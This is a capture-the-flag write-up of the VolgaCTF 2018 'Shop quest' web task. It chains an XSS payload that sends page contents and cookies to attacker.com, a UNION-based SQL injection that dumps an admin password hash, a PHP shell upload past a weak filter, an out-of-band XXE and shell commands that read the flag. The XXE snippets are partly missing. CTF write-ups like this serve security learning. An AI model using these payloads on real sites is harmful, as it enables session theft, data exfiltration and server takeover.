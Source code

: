 # Shop quest  
Category: Web Points: 500 Solves: 0 Description:

For this task, teams could get 500 points, it consisted of several stages that
led to the execution of the code.  
Unfortunately, because of the heavy workload, the task sometimes worked
slowly, but it was still possible to solve it.  
Nobody received the flag, although some teams went through 2 stages out of
three and almost reached the goal.  
I hope that to solve it in any case was interesting and glad that many
attempted to get the flag.

## Stage 1 - Client side  
Firstly, we can see a main page. In the browser console, we can see the name
of the Vue.js framework used to chat with the operator.  
Secondly, in source code we can see injection point, there is the customer
name, which is specified at registration.

![XSS in name parameter](screenshots/xss_stage.png "XSS in name")

This XXS will work on the operator page.  
Final attack vector for stealing Operator info:  
```  
${toString.constructor('var http=new
XMLHttpRequest();http.open("POST","http://attacker.com/?bot",
true);http.setRequestHeader("Content-type","application/x-www-form-
urlencoded");http.send("res="+btoa(unescape(encodeURIComponent(document.body.innerHTML))));')()}  
```  
On *attacker.com* we can see the page where the operator is located reading
our message.  
Decode this page and find operator's password:

*Change your default password: Floise_default_@@@f*

But, you can ask: "Where can I find the login? Login "Operator" doesn't work!"  
Ok) We can see non http only cookie - *userId*. This is IDOR. We can steal
operator's cookie and make request to the server with it.

```${toString.constructor('document.location =
"http://attacker.com/?"+document.cookie')()}```

![IDOR in userId](screenshots/IDOR.png "IDOR exploitation")

Login as Operator:

login: Mark_323212

Password: Floise_default_@@@f

## Stage 2 - SQL Injection

![Operator's page](screenshots/Operators_page.png "Operator's page")

Here we can see operator's page. The operator has three additional methods:

+ GET /Chat/getMessages?chatId=1  
+ GET /Operator/chat?chatId=1  
+ POST /Chat/sendToClient

After a few minutes of fuzzing we can see that the first one may response with
500 status code.  
Unfortunately, automatic scanners will not give anything here. We need
professional pentester's skills!

+ /Chat/getMessages?chatId=1'--+-  
+ /Chat/getMessages?chatId=1"--+-  
+ /Chat/getMessages?chatId=1`--+-

WoW! The third one retrieve status code 200! So, there is injection in chat
table name.

```  
SELECT * FROM `chat_<chatId>`  
```

This is UNION based injection and we can see output.  
After a difficult dumping of the database structure, we find out the login and
password hash of the admin.

Query:  
```  
http://shop-
quest.quals.2018.volgactf.ru/Chat/getMessages?chatId=1`+union+select+login,hash,role,4+from+users+where+role=3--+-  
```

Answer:  
```  
{"status":"ok","messages":[{"id":"1","text":"Hi.
man","is_operator":0,"time":"11:02 PM"},{"id":"2","text":"May the Force be
with you","is_operator":1,"time":"11:02
PM"},{"id":"3","text":"sdfsdf","is_operator":1,"time":"11:06
PM"},{"id":"Bibant","text":"3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c","is_operator":3,"time":"4"}]}  
```

*Bibant / 3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c*

Hash is sha256. The first thing that comes to mind is the online brute
password. It's success.

Login as Admin:

login: Bibant

Password: insaneclownposse

## Stage 3 - RCE

This stage is final and allows uploading php shell. There is simple extension
filter in uploads, words *php* and *htm* are replaced by empty string.

We have simple bypass like: *shell.pphphp*

When we upload a file, we obtain the generated random name for it.

![Shell ulpoad](screenshots/upload_shell.png "Shell ulpoad")

But where is our shell? Let's read source code of site. We have the ability to
save product info in XML format. Maybe XXE? YES!

However, even if the file is valid, the error is returned, that the
functionality does not work yet.

*{"status":"error","message":"Table `goods` doesn't exist"}*

Let's try OOB XXE, and read index.php. Maybe it exists on the server. Send
this payload:  
```

%sp;  
%param1;  
]>  
<r>&exfil;</r>  
```

oob.xml  
```

">  
```

We received index.php and than we have to read several files to find the file
download code:  
```  
require_once 'utils/Core.php';  
```

*utils/Core.php*  
```  
foreach ( glob( $_SERVER['DOCUMENT_ROOT'] . '/controllers/*Controller.php' )
as $filename ) {  
```

*controllers/AdminController.php*  
```  
require_once 'utils/Uploader.php';  
```

Finally, file is uploaded to:  
```  
/uploads_FjsyFkf/md5(user_login . asdasHF$&@(F&@)AF)JFN)/  
```

user_login = Bibant, and we can finally find the flag:

*Find flag:*  
```  
http://shop-
quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=find
/ -name flag*  
```

*Read flag:*  
```  
http://shop-
quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=cat
/home/flag*  
```

Flag is: VolgaCTF{30ff764e5e70f8df3d3f6944c12d0f1a}

P.S. If you have read to the end, you are already a hero)

Original writeup
(https://github.com/shvetsovalex/ctf/tree/master/2018/VolgaCTF-
quals/Shop%20quest).